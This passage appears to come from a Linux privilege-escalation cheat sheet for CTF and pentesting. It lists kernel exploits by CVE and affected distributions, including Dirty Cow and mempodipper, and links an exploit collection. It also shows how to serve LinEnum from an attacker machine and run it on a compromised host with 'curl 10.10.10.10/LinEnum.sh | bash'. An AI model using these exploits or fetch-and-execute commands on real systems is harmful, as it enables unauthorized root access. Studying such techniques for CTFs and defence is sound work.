 perf_swevent_init - Linux Kernel < 3.8.9 (x86-64) - CVE-2013-2094 - June 2013  
	
	Ubuntu 12.04.2  

mempodipper - Linux Kernel 2.6.39 < 3.2.2 (x86-64) - CVE-2012-0056 - January 2012  
    
    Ubuntu 11.10
    Ubuntu 10.04  
    Redhat 6  
    Oracle 6  

Dirty Cow - Linux Kernel 2.6.22 < 3.2.0/3.13.0/4.8.3 - CVE-2016-5195 - October 2016

	Ubuntu 12.04
	Ubuntu 14.04
	Ubuntu 16.04
	
KASLR / SMEP - Linux Kernel < 4.4.0-83 / < 4.8.0-58 - CVE-2017-1000112 - August 2017

	Ubuntu 14.04
	Ubuntu 16.04
	

	
Great list here:
https://github.com/lucyoa/kernel-exploits

## Automated Linux Enumeration Scripts
It is always a great idea to automate the enumeration process once you understand what you are looking for.

### LinEmum.sh
LinEnum is a handy method of automating Linux enumeration.  It is also written as a shell script and does not require any other intpreters (Python,PERL etc.) which allows you to run it file-lessly in memory.

First we need to git a copy to our local Kali linux machine:
```
git clone https://github.com/rebootuser/LinEnum.git
```
Next we can serve it up in the python simple web server:
```
root@kali:~test# cd LinEnum/
root@kali:~test/LinEnum# ls
root@kali:~test/LinEnum# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
And now on our remote Linux machine we can pull down the script and pipe it directly to Bash:
```
www-data@vulnerable:/var/www$ curl 10.10.10.10/LinEnum.sh | bash
```
And the enumeration script should run on the remote machine.

## CTF Machine Tactics

Often it is easy to identify when a machine was created by the date / time of file edits.
We can create a list of all the files with a modify time in that timeframe with the following command:
```
find -L /  -type f -newermt 2019-08-24 ! -newermt 2019-08-27 2>&1 > /tmp/foundfiles.txt
```
This has helped me to find interesting files on a few different CTF machines.
